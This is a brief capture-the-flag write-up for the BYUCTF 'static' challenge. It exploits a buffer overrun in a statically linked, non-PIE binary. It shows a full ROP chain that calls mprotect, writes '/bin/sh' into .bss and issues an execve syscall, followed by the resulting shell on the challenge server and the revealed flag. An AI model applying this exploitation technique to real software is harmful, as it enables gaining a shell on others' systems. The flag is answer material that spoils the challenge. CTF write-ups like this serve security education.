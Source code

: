 # Solve 

Bug: Buffer overrun 
Offset: 10 

Is says that canary is found but I couldn't see any checks for canary bytes in the main program.  
That is because libc is statically linked and uses canaries..  

Played around with different solution. Wanted to try to use mprotect since it was available but it's really no need for it because it is possible to write to .bss anyway. PIE is not activated and the binary is statically linked so plenty of gadgets to use. 

Use ROPGadget to get suitable gadget:

```
root@efcb893234f1:~/byuctf/stat# python3 solve.py 
[*] '/root/byuctf/stat/static'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to static.chal.cyberjousting.com on port 1350: Done
[*] Loaded 122 cached gadgets for 'static'
len shellcode: 48
ROP chain:
0x0000:         0x401fe0 pop rdi; ret
0x0008:         0x49f000
0x0010:         0x4062d8 pop rsi; ret
0x0018:           0x1000
0x0020:         0x432972
0x0028:              0x7
0x0030:         0x410870 __mprotect
0x0038:         0x4062d8 pop rsi; ret
0x0040:         0x49f040 completed.1
0x0048:         0x41069c pop rax; ret
0x0050: 0x68732f6e69622f
0x0058:         0x4116c1
0x0060:         0x401fe0 pop rdi; ret
0x0068:         0x49f040 completed.1
0x0070:         0x4062d8 pop rsi; ret
0x0078:              0x0
0x0080:         0x432972
0x0088:              0x0
0x0090:         0x41069c pop rax; ret
0x0098:             0x3b
0x00a0:         0x401194 syscall

[*] Switching to interactive mode
$ ls
flag.txt
start.sh
static
$ cat flag.txt
byuctf{glaD_you_c0uld_improvise_ROP_with_no_provided_gadgets!}
$
```

